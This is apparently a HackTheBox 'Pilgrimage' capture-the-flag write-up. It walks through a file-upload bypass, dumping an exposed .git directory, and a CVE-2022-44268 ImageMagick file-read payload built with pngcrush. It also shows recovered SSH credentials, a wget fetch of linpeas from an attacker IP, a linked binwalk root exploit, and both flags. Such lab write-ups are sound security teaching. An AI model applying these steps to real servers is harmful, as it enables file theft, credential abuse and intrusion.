

# Pilgrimage

Easy
{: .label .label-green }

File upload
{: .label .label-purple }

git
{: .label .label-purple }

imagemagick
{: .label .label-purple }

binwalk
{: .label .label-purple }

View on [Github](https://github.com/lamachin3/lamachin3.github.io/tree/main/writeups/HackTheBox/Pilgrimage)

# Enumeration

```bash
nmap -sCV 10.10.11.219
```



## Webapp


On the home page we can see a file upload form which could be used to perform a file upload exploit. [https://book.hacktricks.xyz/pentesting-web/file-upload](https://book.hacktricks.xyz/pentesting-web/file-upload)

In the menu source code we can see that the backend is using php therefore we can try to upload php files and access them after to see if our code is executed or not.


Here is an example of the php file to POC a RCE in our app:

```php
<?php

exec('ls', $output);

?>
```

When trying to upload this file you will face an issue, the webapp doesn’t allow you to upload a php file. This is due to the html input tag which contains an accept parameter allowing only png and jpeg files.


To bypass this 2 techniques could work:

- upload the file with 2 extensions such as `file.php.png`
- change the html in our browser to accept php file but this can only work if the check isn’t also done in the backend

## .git directory exposed


→ index file


### Dump the .git content

Using the `git-dumper` [https://github.com/arthaud/git-dumper](https://github.com/arthaud/git-dumper) utility we can gather the content of the backend and to look into the files content.


As we can see through the magick binary the backend is using `ImageMagick` to manipulate the images. When looking for ImageMagick exploitation paths on the web I found a few interesting pages:

- [https://www.synacktiv.com/en/publications/playing-with-imagetragick-like-its-2016](https://www.synacktiv.com/en/publications/playing-with-imagetragick-like-its-2016) & [https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/) : Didn’t manage to make the exploits from these pages work
- [https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC) : This one is based on CVE-2022-44268 which works on `magick 7.1.0-49` . You can check the version of the binary running

```php
./magick -version
```

However this fails because the binary isn’t compatible with my pc architecture (arm64).


→ Therefore I choose to test it the hard by creating the image following and the POC and see if it works or not and surprise it works !

```php
convert -size 320x240 xc:skyblue input.png
pngcrush -text a "profile" "/etc/hosts" input.png crushed_input.png
exiv2 -pS crushed_input.png #verify the output

### Upload the crushed_input.png image on pilgrimage.htb
### Follow the link that the app responds to us and download the image that appears
### Run the following steps on the downloaded image

identify -verbose download.png
python3 -c 'print(bytes.fromhex("<HEX_CONTENT>").decode("utf-8"))'
```

Here is how you identify the `HEX_CONTENT` value:


After running the python command to decode the hexadecimal output we can clearly see the output of the shell command we injected in our image:

We can now repeat this to further explore the server we are targeting.

## Initial Access

Looking for the an initial access i tried to access common files to get information about the host:

- /etc/passwd


- /var/db/pilgrimage

From the `login.php` we collected in the git dump we can see a full path to a database file which is used for authentication


By collecting this file we can see the content of the sqlite database. However when using the standard process given in the POC the HEX decoding to UTF-8 fails and therefore I ended up using an online tool such as [https://www.duplichecker.com/hex-to-text.php](https://www.duplichecker.com/hex-to-text.php) or [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/). Now we can read the the database content, this due to the fact that sqlite is a database written in plain-text into text files, and figure some default credentials along with the user we created (test:test):


→ emily:abigchonkyboi123
As emily is the user we found in the /etc/passwd file this seems like a very promising initial access to the host via ssh.

```bash
ssh emily@pilgrimage.htb
# enter abigchonkyboi123
```

Et voila


## First flag

The first flag can be found in the `user.txt` file.

<details markdown="1">
<summary><b>user.txt</b></summary>
```bash
d5e6dcc948db1aa7a694d06d1795d506
```
</details>

# Host Enumeration

## Linpeas

Being on a linux host we run linpeas to automate some of the host enumeration tasks.

To do so:

- first download [linpeas.sh](http://linpeas.sh) from their webpage: http://linpeas.sh
- put in a directory which you can expose and start a basic python web server to expose the file system:

```bash
python -m http.server 8000
```

- from the target use wget to collect the script

```bash
wget <attacker_VPN_IP>:8000/linpeas.sh
```

- make the script executable and run it

```bash
chmod +x linpeas.sh
./linpeas.sh
```

→ Nothing interesting really pops out

## Pspy

Through pspy we can that the [malwarescan.sh](http://malwarescan.sh) script is launched frequently to make sure that inotifywait is running on the /var/www/pilgrimage.htb/shrunk directory waiting for the creation of new files


Here is the content of malwarescan.sh:


We can test this by creating a new file under /var/www/pilgrimage.htb/shrunk and see what happens with pspy:

```bash
touch /var/www/pilgrimage.htb/shrunk/test.sh
```


As we can when inotifywait catches a new the binwalk binary is executed onto it. By looking at this binary help we can find it’s version and by googling it we can easily find an exploit to build an image that will allow you to get the root access.


# Privilege Escalation

[https://www.exploit-db.com/exploits/51249](https://www.exploit-db.com/exploits/51249)


→ root shell

```bash
cat /root/root.txt
```

<details markdown="1">
<summary><b>root.txt</b></summary>
```bash
7d8c6af104c86b24ec0af8245a93171d
```
</details>